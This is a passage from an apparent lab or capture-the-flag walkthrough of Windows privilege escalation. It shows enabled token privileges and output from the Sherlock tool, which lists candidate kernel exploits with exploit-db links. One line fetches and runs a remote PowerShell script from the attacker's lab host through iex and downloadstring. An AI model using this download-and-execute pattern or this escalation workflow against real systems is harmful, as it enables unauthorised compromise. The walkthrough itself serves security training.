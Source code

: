 ```

PS C:\users\merlin\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

```

#### Sherlock

Another tool to try is [Sherlock](https://github.com/rasta-mouse/Sherlock). Unfortunately, it’s no longer being maintained, in favor of Watson (see [more on that later](#watson)). Still, it’s a quick PowerShell Script that will identify some kernel exploits.

Upload it, and then run `Find-AllVulns`. It looks like MS10-092 is a good candidate:

```

PS C:\users\merlin\appdata\local\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.5/Sherlock.ps1')
PS C:\users\merlin\appdata\local\temp> Find-AllVulns

Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
```